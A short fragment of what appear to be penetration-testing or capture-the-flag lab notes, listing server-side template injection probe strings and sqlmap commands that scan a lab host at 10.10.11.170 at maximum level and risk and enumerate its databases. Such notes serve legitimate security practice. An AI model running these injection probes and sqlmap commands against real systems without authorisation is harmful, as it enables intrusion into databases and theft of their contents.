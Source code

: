 
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

### sqlmap

--level=5 highest level
--risk=3 highest level 
--batch - run without asking any questions

sqlmap -u http://10.10.11.170:8080/ --batch


sqlmap -u http://10.10.11.170:8080/stats?author=woodenk --level=5 --risk=3 --batch



Enumerate databases
> sqlmap -u http://10.10.11.170:8080 --level=5 --risk=3 --batch --dbs
